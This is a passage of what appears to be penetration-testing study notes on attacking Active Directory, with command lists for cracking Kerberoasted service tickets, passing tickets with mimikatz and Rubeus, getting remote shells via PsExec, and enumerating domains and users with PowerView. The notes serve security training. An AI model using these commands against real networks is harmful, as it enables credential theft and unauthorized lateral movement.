 - Crack the ticket
```
python /usr/share/kerberoast/tgsrepcrack.py wordlist.txt 1-40a50000-
Offsec@HTTP~CorpWebServer.corp.com-CORP.COM.kirbi

impacket-ticketConverter ticket.ccache ticket.kirbi
kirbi2john ticket.kirbi >> ticket.hash
john ticket.hash --wordlist=/usr/share/wordlist/rockyou.txt
```

- Pass the ticket
```
mimikatz.exe "kerberos::ptt path_to_ticket.kirbi" or
.\Rubeus.exe triage
.\Rubeus.exe dump /luid:<luid> /nowrap
.\Rubeus.exe ptt /ticket:ticket.kirbi (or base64 ticket)
klist
.\PsExec.exe -accepteula \\hostname cmd
```

- Use Kerberos for login and other stuff (might not work)
```
impacket-ticketConverter ticket.kirbi ticket.ccache
export KRB5CCNAME=/home/kali/ticket.ccache
impacket-psexec domain/user@IP or hostname -k -no-pass
```

## Manual Enumeration with PowerView
- Users
- Groups
- Nested Groups
- Permissions of Users, Groups and Nested Groups (AD Enumeration from OffSec)
- [Cheatsheet](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview)

### Domain
```
Get-NetDomain
Get-NetDomain -Domain <domain>
Get-DomainSID
Get-DomainPolicy
(Get-DomainPolicy)."system access"
(Get-DomainPolicy)."kerberos policy"
Get-NetDomainController
Get-NetDomainController -Domain <domain>
```

### User
```
Get-NetUser
Get-NetUser -SPN
Get-DomainUser
Get-Domainuser -Identity <name>
Get-NetUser -name <name>
Get-NetUser | select samacocuntname
Get-DomainUser -properties samaccountname,logoncount
Get-NetUser -name <name> | select cn
Get-UserPropery
Get-UserProperty -Properties pwdlastset,badpwdcount,logoncount
Find-UserField -SearchField Description -SearchTerm “built”
Find-DomainUserLocation
```
